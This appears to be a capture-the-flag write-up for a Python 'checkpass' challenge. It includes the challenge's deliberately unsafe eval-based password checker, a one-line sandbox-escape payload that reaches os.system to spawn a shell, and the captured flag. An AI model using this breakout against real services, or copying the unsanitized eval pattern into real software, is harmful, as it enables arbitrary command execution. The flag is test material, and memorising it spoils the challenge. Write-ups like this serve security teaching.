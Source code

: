 # Bonus: The Revenge of Checkpass 1
> Last year (in an unrelated contest), I made a Python password checker that had way too many solutions. To be fair, it was on me for using eval without sanitizing input or anything, but like, cmon, can we not just trust people nowadays? What happened to the days of leaving your front door unlocked?

> Anyways, I made it completely foolproof this time: no flag variable, no more printing, heck, no builtins at all!

> Surely it's unbreakable now…right?

> This problem was inspired by an online judge platform that shall not be named.

## About the Challenge
We were givena a `zip` file that contain a python script. Here is the content of the script

```python
#!/usr/local/bin/python
# -*- coding: utf-8 -*-

def main():
  password = "the password can contain non-ascii charactérs :)"
  inp = input("Enter a Python list: ")
  lis = eval(inp, {'__builtins__': None}, None)
  if type(lis) != list:
    print("That's not a list")
    return
  for i in lis:
    if not isinstance(i, int):
      print("The list can only contain integers")
      return
  if lis == [ord(e) for e in password]:
    print("You are now authorized!")
    with open("flag.txt", "r") as flag:
      print(flag.read())
  else:
    print("Incorrect password!")

if __name__ == "__main__":
  main()
```

This code snippet prompts the user to enter a Python list as input, evaluates the input string as a Python expression, and assigns the resulting list to the variable lis, while restricting access to built-in functions and variables for security purposes.

## How to Solve?
Im using PyJail payload to breakout from the sandbox. Here is the payload I used

```
().__class__.__base__.__subclasses__()[141].__init__.__globals__["system"]("sh")
```

![flag](images/flag.png)

```
ctf{pyth0n_s4ndb0x_br34k0ut_1f8bca}
```